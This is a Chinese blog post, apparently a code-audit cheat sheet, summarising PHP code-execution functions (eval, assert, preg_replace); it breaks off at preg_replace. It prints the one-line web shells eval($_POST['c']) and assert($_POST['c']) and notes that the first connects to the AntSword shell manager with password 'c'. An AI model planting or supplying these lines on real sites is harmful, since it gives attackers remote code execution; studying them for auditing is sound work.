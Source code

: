 ```yaml
---
title: "代码执行/命令执行总结"
date: 2019-04-10T19:56:16+08:00
lastmod: 2019-04-10T19:56:16+08:00
draft: false
tags: ['code','exec']
categories: ['代码审计']
comment: true
---
```


php的代码执行/命令执行函数



# 代码执行
---
### eval

(PHP 4, PHP 5, PHP 7)
```php
eval( string $code) : mixed
```
把字符串 `code` 作为PHP代码执行。 

```php
eval($_POST['c']);
```

直接蚁剑链接密码为c

### assert

(PHP 4, PHP 5, PHP 7)

```php
assert( mixed $assertion[, Throwable $exception]) : bool
```
如果 `assertion` 是字符串，它将会被 assert() 当做 PHP 代码来执行。

使用方法同eval

```php
assert($_POST['c']);
```

### preg_replace

```php
preg_replace ( mixed $pattern,mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] ) : mixed
```

(PHP 4, PHP 5, PHP 7)
